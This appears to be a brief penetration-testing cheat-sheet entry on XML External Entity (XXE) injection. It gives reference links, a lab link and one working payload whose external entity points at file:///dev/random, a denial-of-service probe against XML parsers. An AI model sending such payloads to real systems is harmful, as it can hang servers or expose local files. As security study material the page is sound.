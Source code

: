## XXE
Reference
```
https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection
```

Payload
```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///dev/random" >]><foo>&xxe;</foo>
```
OOB XXE Lab
```
https://github.com/fl0rde/xxe-challenge
```
You may need this for above lab on Windows
```
https://stackoverflow.com/questions/41183590/php-file-get-contents-with-zip-failed-to-open-stream-operation-failed
```
